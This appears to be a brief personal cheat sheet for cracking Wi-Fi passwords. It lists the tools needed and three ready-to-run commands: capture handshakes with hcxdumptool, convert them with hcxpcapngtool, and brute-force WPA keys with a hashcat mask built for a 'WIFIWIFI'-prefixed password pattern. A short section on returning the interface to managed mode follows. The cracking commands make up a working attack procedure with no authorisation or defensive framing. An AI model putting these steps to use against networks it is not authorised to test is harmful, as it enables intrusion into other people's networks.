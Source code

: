 = 2024年09月24日

== wifi

Requirements:

* aircrack-ng
* hcxtools
* hcxdumptool
* hashcat

. ``sudo hcxdumptool -i wlp6s0f3u2 -w WIFIs.pcapng``
. ``hcxpcapngtool -o WIFIs.hc22000 WIFIs.pcapng``
. ``hashcat -m 22000 WIFIs.hc22000 -a 3 -1 '?d?l' 'WIFIWIFI?1?1?1?1?1' -w 3``


== Disabling Monitor Mode

. ``ip link set wlo1 down``
. ``iw wlo1 set type managed``
. ``ip link set wlo1 up``

Check with ``iwconfig`` if Mode is set to **Managed**.
